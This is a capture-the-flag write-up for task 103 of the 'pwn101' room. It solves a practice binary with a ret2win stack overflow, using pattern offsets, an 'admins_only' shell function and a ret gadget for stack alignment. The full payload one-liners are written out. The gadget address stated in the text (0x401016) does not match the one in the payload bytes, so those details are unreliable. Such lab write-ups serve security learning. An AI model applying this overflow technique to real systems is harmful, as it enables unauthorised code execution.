





# How to exploit 103 task from the room pwn101 ?

## exploit

```bash
	$ python3 -c "open('payload','wb').write(b'A'*32 + b'B'*8 + b'\xec\x16\x40\x00\x00\x00\x00\x00' + b'\x54\x15\x40\x00\x00\x00\x00\x00')"
 	$ (echo "3\n"; cat payload; cat) | ./pwn103.pwn103
```

## Why ?

begin with the begining, find the vector:

- check the first input
- check the others possibilities of the menu

so, let's check the first input after the try of adding a lot of 'A' we don't find the vector here now, let check the others menu:

1. Announcements: juste some text so not input
2. Rules: same as Announcements
3. Général: check with a lot of 'A' and let's go ! we find the enter !

now, let's exploit !

### find the size of the buffer

we're going to find the size of the buffer by using `msf-pattern` and `gdb-peda`:

```bash
	msf-pattern_create -l 100
```

then run gdb peda:


the use msf-patter_offset:

```bash
	msf-pattern_offset -q 0x4132624131624130
```

### find interesting functions

and we find that the buffer has a size of 32 or 0x20 bits now, we have to find how to exploit let's open cutter to find some intersting funtions or others:



so, we finds the function admins_only who give a shell a the adress `0x00401554`

## PWN !

now we have all to exploit:
- buffer size
- function to call

### let's build the exploit !

payload = buffer_size + 8bits to write into the RSP registre + admins_only adress

let's try it !

```bash
	python3 -c "open('payload','wb').write(b'A'*32 + b'B'*8 + b'\x54\x15\x40\x00\x00\x00\x00\x00')"
	(echo "3\n"; cat payload; cat) | ./pwn103.pwn103 
```

saddly, it's didn't work...



So why ?!
it's because the movaps issue: [link to a ressource](https://ropemporium.com/guide.html)\
the solution from the website:

	The MOVAPS issue
	If you're segfaulting on a movaps instruction in buffered_vfprintf() or do_system() in the x86_64 challenges, then ensure the stack is 16-byte aligned before returning to GLIBC functions such as printf() or system(). Some versions of GLIBC uses movaps instructions to move data onto the stack in certain functions. The 64 bit calling convention requires the stack to be 16-byte aligned before a call instruction but this is easily violated during ROP chain execution, causing all further calls from that function to be made with a misaligned stack. movaps triggers a general protection fault when operating on unaligned data, so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a push instruction.

so, let's find a ret intruction and add it into our payload

### find a ret instruction

let's use `ROPgadget` to find a ret instruction:
```bash
	ROPgadget --binary pwn103.pwn103 | grep ret
```


so let's add `0x0000000000401016` to the payload

## Exploitation

new payload = buffer_size + 8bits to write into the RSP registre + ret_adress + admins_only adress

```bash
	$ python3 -c "open('payload','wb').write(b'A'*32 + b'B'*8 + b'\xec\x16\x40\x00\x00\x00\x00\x00' + b'\x54\x15\x40\x00\x00\x00\x00\x00')"
 	$ (echo "3\n"; cat payload; cat) | ./pwn103.pwn103
```



GG !